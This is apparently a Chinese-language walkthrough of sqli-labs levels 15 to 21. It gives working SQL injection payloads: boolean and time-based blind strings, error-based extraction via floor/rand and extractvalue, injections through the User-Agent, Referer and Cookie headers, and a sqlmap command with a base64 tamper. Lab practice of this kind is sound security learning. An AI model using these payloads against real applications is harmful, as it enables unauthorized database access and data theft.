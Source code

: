 15. Less-15- Blind- Boolian Based- String

    ```SQL
    1' or '1'='1'#
    1" or "1"="1"#
    1') or ('1'='1')#
    1") or ("1"="1")#
    ```

    用以上payload跑了用户名框，根据反馈而页面大小内容确定payload是`1' or '1'='1'#`.因为页面没有反馈具体内容，所以必须要根据盲注要注入。布尔型盲注`1' or payload#`,时间型盲注`admin' and (payload)#`。时间型盲注中因为用了and,所以用户名要和数据库中的数据一致。其他不赘述。

16. Less-16- Blind- Time Based- Double quotes- String

    与上个题目类似，只是这个题目的闭合方式是双引号加括号`")`

17. Less-17 Update Query- Error based - String

    这次的题目不再是对数据进行查询，而是更新update。经过对表单的两个输入框分析，应该是通过填入用户名以及密码然后更新。基本语句是`update table_name set passwd=$_POST['passwd'] where username=$_POST['uname'];`

    那么可以尝试注入的地方就有uname和passwd了。

    1. 首先尝试对uname进行注入。第一个想法是考虑到uname的位置是处于语句的末尾，那么可以尝试堆叠注入，不过失败了。第二个想法是构造`username='admin' and (select sleep(5))`。但是执行时失败了，有提示不要注入的语句，可能是被过滤。

    2. 尝试对passwd进行注入。构造`1' and (select sleep(1))#`可以进行睡眠。适合进行盲注。但是奇怪的是如果构造的第一个字符不是数字而是其他字符就不能成功，并且睡眠时间要大于我们设置的时间。

    3. 使用报错注入也可以完成。`1' and (select 1 from (select count(*),concat((payload)),floor(rand(0)*2))a from information_schema.tables group by a)x )`

18. Less-18 Header Injection- Error Based- string

    这个题目还挺奇葩的，登录成功后才会出现关键点，会出现你的User-Agent内容，所以注入点就是在user-agent里面。

    1. 首先用`1' #`,但是没有闭合成功，报错。所以换一种方式`1' and '1'='1`以及`1' and '1'='2`都没有任何反应。再尝试`1' and (select sleep(5)) and '1'='1`成功。

    2. 也可以用报错注入`1' and (select 1 from (select count(*),concat(database(),floor(rand(0)*2))a from information_schema.tables group by a)x) and '1'='1`

19. Less-19 Header Injection- Referer- Error Based- string

    这个题目和上一个题目类似，直接使用报错注入或者时间注入

    报错注入：`1' and (extractvalue(1,concat(0x7e,(payload),0x7e))) and '1'=1`
    时间盲注：`1' and (select sleep(5)) and '1'='1`

20. Less-20 Cookie Injection- Error Based- string

    这个题目有两个部分，第一部分是登录；第二部分是登录成功后Cookie会变成`uname=admin`，这时候页面会把UA、Cookie这些内容显示出来。

    我按照以前的思路，一开始就在登录时候尝试对Cookie内容进行注入，没有反应。后来看了其他人的WriteUp才发现是在第二部分在Cookie中注入内容，并且前面要完全符合uname=admin的格式才能注入。剩下的就是常规操作`uname=admin' order by ...`

21. Less-21 Cookie Injection- Error Based- complex - string

    和20题一样的套路，只是用Base64进行了编码，但是这样下去手动的注入可不行啊。用用工具吧，tamper里面有现成的base64encode。通过这个语句直接完成`sqlmap -r Desktop/temp.txt --tamper=base64encode -v 3`
